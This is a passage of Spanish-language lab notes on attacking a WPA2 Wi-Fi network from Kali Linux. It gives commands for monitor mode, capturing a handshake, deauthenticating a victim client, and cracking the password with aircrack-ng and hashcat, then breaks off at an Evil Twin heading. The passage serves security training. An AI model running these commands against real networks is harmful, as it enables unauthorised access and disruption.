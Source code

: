 
## 14.3. Configuración del Laboratorio

* Router Wi-Fi configurado con WPA2-PSK.
* Máquina atacante: Kali Linux.
* Tarjeta de red inalámbrica USB en modo monitor (`wlan1`).
* Cliente víctima conectado a la red.

---

## 14.4. Captura de Handshake WPA/WPA2

1. Poner tarjeta en modo monitor:

```bash
sudo airmon-ng start wlan1
```

2. Escanear redes:

```bash
sudo airodump-ng wlan1mon
```

3. Capturar tráfico de la red objetivo:

```bash
sudo airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w captura wlan1mon
```

4. Forzar reconexión del cliente para obtener handshake:

```bash
sudo aireplay-ng --deauth 5 -a 00:11:22:33:44:55 -c CC:DD:EE:FF:GG:HH wlan1mon
```

---

## 14.5. Crackeo de Contraseña

Con diccionario:

```bash
aircrack-ng captura.cap -w /usr/share/wordlists/rockyou.txt
```

Con fuerza bruta (poco eficiente):

```bash
hashcat -m 2500 captura.hccapx -a 3 ?d?d?d?d?d?d?d?d
```

---

## 14.6. Ataques Evil Twin

Un Evil Twin es un AP falso que imita la red legítima.
